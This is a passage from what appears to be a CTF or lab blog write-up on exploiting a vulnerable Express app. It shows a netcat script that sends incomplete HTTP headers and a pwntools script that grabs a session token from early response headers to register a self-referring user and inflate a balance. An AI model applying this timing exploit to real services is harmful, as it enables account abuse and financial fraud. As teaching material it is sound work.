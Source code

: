 2. Now send just the headers (not the full body) using this script:

```bash
#!/usr/bin/env bash

(
    echo -e "POST /test HTTP/1.1\r";
    echo -e "Host: localhost\r";
    echo -e "Content-Length: 999\r";
    sleep 5; # DO NOT send the final blank line that terminates headers, wait and see that server hangs
    echo -e "\r"; # you should see a response once this happens
) | nc localhost 3000
```

![route-handler-triggered](/blog/images/2025-04-15-10-46-28.png)

See. The server doesn’t wait for the full body to call the route logic. That's because Express registers handlers early — and starts sending back a response early too.

Why does that matter?

Because in our vulnerable app, the response sets a cookie `(token=...)` before the request finishes. This will give us a small window to do what we want with the **token in the response header**.

## Exploitation

Armed with this newfound knowledge, we know exactly what we need to do: We need to register a user that self-refers himself and cashes out as many times as needed for his account balance to reach the target 100_000_000_000.

We exploit the fact that, in Node's HTTP module, the response headers are sent once the request headers are transmitted, but before the request body is fully processed (no "end" event triggered yet). This allows us to retrieve the token from the response and append it to the rest of the request, enabling the creation of our malicious user.

> the `name` field in the request is not necessary.

Alright, let's get to business. I'll be using [pwntools](https://docs.pwntools.com/en/stable/) to deliver the attack.

1. Create a TCP connection with the server and keep it alive so we can receive the response headers:

```python
from pwn import *

# Creates a TCP or UDP-connection to a remote host. It supports both IPv4 and IPv6.
connection = remote('localhost', 3000)

# Send an HTTP request without closing (server doesn't emit 'end' event)
connection.send(
    (
        b'POST /new HTTP/1.1\r\n'
        b'Host: localhost\r\n'
        b'Transfer-Encoding: chunked\r\n'
        b'Content-Type: application/x-www-form-urlencoded\r\n'
        b'\r\n'
    )
)
# Do simple string manipulation to extract the token from the response headers
token = connection.recv().decode().split('token=')[1].split('\r\n')[0]
```

